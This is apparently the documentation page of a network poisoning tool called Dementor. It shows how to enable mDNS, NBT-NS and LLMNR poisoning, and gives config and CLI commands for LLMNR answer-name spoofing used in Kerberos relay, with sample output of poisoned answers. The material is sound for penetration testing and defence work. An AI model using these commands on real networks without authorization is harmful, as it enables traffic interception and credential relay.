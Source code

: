.. _examples_multicast:

Multicast Poisoning ⚙️
======================


.. _example_multicast_mdns:

Multicast Poisoning
-------------------

To enable multicast poisoning, you have to enable the poisoners in the configuration file
(:attr:`Dementor.mDNS`, :attr:`Dementor.NBTNS` and :attr:`Dementor.LLMNR`).

A service discovery can be triggered from a Windows host for example (assuming mDNS is
active). For instance, when trying to access file share ``FILESERVER01`` in the File
Explorer, Windows falls back to mDNS if the name can't be resolved through normal DNS
queries.

The output of Dementor should look like this (analyze mode):

.. container:: demo

    .. code-block:: console

        $ Dementor -I <INTERFACE> -A
        [...]
        MDNS       192.168.56.115  5353   [*] Request for FILESERVER01.local (class: IN, type: A)
        MDNS       192.168.56.115  5353   [*] Request for FILESERVER01.local (class: IN, type: AAAA)
        [...]

The Windows host sends two queries, one for IPv4 (``A``) and one for IPv6 (``AAAA``). This packet is
sent via Layer 2 broadcast and Layer 3 multicast to all devices on the subnet (mDNS is link-local
only). All devices listening on port ``5353`` receive it.


.. _examples_multicast_llmnr_answername:

LLMNR Answer-Name Spoofing
--------------------------

Building on standard multicast poisoning techniques, Synacktiv introduced an advanced method that
enables Kerberos relaying attacks through manipulated response names. This behavior can be triggered
by setting a custom :attr:`LLMNR.AnswerName`.


.. seealso::

    Synacktiv's excellent write-up on how to leverage this behavior for pre-authenticated Kerberos relay:
    `Abusing multicast poisoning for pre-authenticated Kerberos relay over HTTP with Responder and krbrelayx <https://www.synacktiv.com/publications/abusing-multicast-poisoning-for-pre-authenticated-kerberos-relay-over-http-with>`_


.. tabs::

    .. tab:: Dementor.toml

        .. code-block:: toml
            :emphasize-lines: 2

            [LLMNR]
            AnswerName = "other-srv"


    .. tab:: CLI

        .. code-block:: console

            $ Dementor -I "$INTERFACE" -O LLMNR.AnswerName="other-srv"


.. container:: demo

    .. code-block:: console
        :caption: Dementor output if :attr:`LLMNR.AnswerName` is set (here ``"other-srv"``)

        LLMNR      fe80::8930:4b9c:f67c:f9bf 5355   [*] Query for SomeService (type: A)
        LLMNR      fe80::8930:4b9c:f67c:f9bf 5355   [+] Sent poisoned answer to fe80::8930:4b9c:f67c:f9bf (spoofed name: other-srv)
        LLMNR      192.168.56.116            5355   [*] Query for SomeService (type: A)
        LLMNR      192.168.56.116            5355   [+] Sent poisoned answer to 192.168.56.116 (spoofed name: other-srv)
        LLMNR      fe80::8930:4b9c:f67c:f9bf 5355   [*] Query for SomeService (type: AAAA)
        LLMNR      fe80::8930:4b9c:f67c:f9bf 5355   [+] Sent poisoned answer to fe80::8930:4b9c:f67c:f9bf (spoofed name: other-srv)
        LLMNR      192.168.56.116            5355   [*] Query for SomeService (type: AAAA)
        LLMNR      192.168.56.116            5355   [+] Sent poisoned answer to 192.168.56.116 (spoofed name: other-srv)
        LLMNR      fe80::8930:4b9c:f67c:f9bf 5355   [*] Query for SomeService (type: A)
        LLMNR      fe80::8930:4b9c:f67c:f9bf 5355   [+] Sent poisoned answer to fe80::8930:4b9c:f67c:f9bf (spoofed name: other-srv)
        LLMNR      192.168.56.116            5355   [*] Query for SomeService (type: A)
        LLMNR      192.168.56.116            5355   [+] Sent poisoned answer to 192.168.56.116 (spoofed name: other-srv)

